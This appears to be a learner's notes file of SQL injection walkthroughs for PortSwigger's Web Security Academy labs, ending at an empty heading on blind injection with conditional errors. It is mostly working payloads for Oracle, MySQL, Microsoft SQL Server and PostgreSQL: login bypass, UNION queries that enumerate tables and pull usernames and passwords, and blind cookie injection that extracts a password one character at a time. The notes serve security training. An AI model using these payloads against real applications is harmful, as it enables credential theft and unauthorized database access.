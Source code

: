 # SQL Injection Notes

This will be the start of the SQL injection notes from the portswigger web security academy. I will just be listing walkthroughs and methodologies from the labs. Read the material for background information or watch.

Tips for exam: If 'Advanced Search' is used privilege escalation will be easy. 

### Cheat sheet
[cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Injection points to consider:

- search parameters
- cookie values
- url parameters

### UNION Methodology

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
Oracle:
' UNION SELECT NULL FROM DUAL--
MySQl or Microsoft:
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
Check if text in columns:
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```

## Checking for tables

```
Oracle:
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

Microsoft:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

PostgreSQL:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

MySQL:
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

# Labs walkthrough sections

## UNIONS

### SQLi vulnerability in WHERE clause allowing retrieval of hidden data

When selecting a refined search category like `Gifts` one can see the value in the URL set as Gifts. Adding the below  payload let's us view all products even unreleased ones.  

```
' or 1=1--
```

![image](https://github.com/user-attachments/assets/2d0bf1ab-78c8-480f-8f95-c2906d9fd7fe)

### SQL injection vulnerability allowing login bypass

Go to `my account` and enter arbirtraty login values with burp intercept on, then change the url value with: `administrator'--`

![image](https://github.com/user-attachments/assets/8ed32490-050b-4102-bfd7-5b397c7eecb6)


### SQL injection attack, querying the database type and version on Oracle

So first methodology for UNION attacks, in Oracle based on the Cheatsheet we see that every Oracle db needs a table to select from. We will always need a table to call to in Oracle, so in this case let's start with adding FROM dual in our query at the end. All of these injections are placed in the same as above, in the categories filter.

So it would look like

```
' UNION SELECT NULL FROM DUAL--
```

Just add Null's until we identify the length of columns. We find that 2 no longer gives us internal server errors. So now we are going to check for text by just adding random strings to the columns where the NULLS are like: "abc" 

```
' UNION SELECT 'abc', NULL FROM DUAL--
' UNION SELECT 'abc', 'abc' FROM DUAL--
```

We see both columns contain text values, so now the end challenge is to display the version of Oracle. Which you call by doing `SELECT BANNER FROM v$version`

```
' UNION SELECT BANNER, NULL FROM v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft

Similar methodology steps as the above UNION for Oracle but with # as the comment, we stop at 2 but add additional NULLs if you still get 500 internal errors

```
' UNION SELECT NULL#
' UNION SELECT NULL,NULL#
```

To check for text in columns

```
' UNION SELECT 'abc',NULL#
' UNION SELECT NULL,'abc'#
```


To solve just add @@version to the columns above

```
' UNION SELECT NULL,NULL#
```

### SQL injection attack, listing the database contents on non-Oracle databases

Follow the same UNION strategy as above

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```

Then we need to pull data on the tables in the db

```
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Use the table you can deduce contains user creds

```
' UNION SELECT column_name, NULL FROM information_schema.tables WHERE table_name='users_abcdef'--
```

Then pull out the administrator pass with this:

```
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

### SQL injection attack, listing the database contents on Oracle

Follow same UNION steps, we are going to assume 2 columns from here instead of repeating the same as above

```
' UNION SELECT 'abc', 'abc' FROM DUAL--
Retrieve tables:
' UNION SELECT table_name, NULL FROM all_tables--
Find columns on table:
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='users_abcdef'--
Get Admins password:
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

### SQL injection UNION attack, determining the number of columns returned by the query

We've gone over this already many times

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

### SQL injection UNION attack, finding a column containing text

```
' UNION SELECT 'abc',NULL--
' UNION SELECT NULL,'abc'--
```

### SQL injection UNION attack, retrieving data from other tables

Checking same UNION and columns holding text methodology

```
' UNION SELECT 'abc','abc'--
```

Pull data out

```
' UNION SELECT username, password FROM users--
```

### SQL injection UNION attack, retrieving multiple values in a single column

We can concatenate two values into one to pull from a single column. More concatentation syntax exists in the cheat sheet.

```
' UNION SELECT NULL, username||'~'||password FROM users--
```

## Blind

### Blind SQL injection with conditional responses

There exists a TrackingId cokie value when visiting the site. 
- When we go to the site we see a `Welcome back` message in the website.
- If we add `' AND '1'='1` to the cookie we still see this message still.
- Now place `' AND '1'='2` and notice we don't get a message back, this means we can craft to identify values in the db
- Now we use this query `' AND (SELECT 'a' FROM users LIMIT 1)='a`
- This confirms that there is a users table
- Now we can use this query to identify that the administrator exists `' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
- Verifying password length: `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
- Continuing to find password length `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a` increase this until we get a response without the message back
- Now send it to intruder and do this, fuzzing the a so we can find what the first letter of the password is `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§`
- Now we just change the first integer in the password section like this: `' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§`
- test these offsets until you get to the end of the password and you will have one

### Blind SQL injection with conditional errors




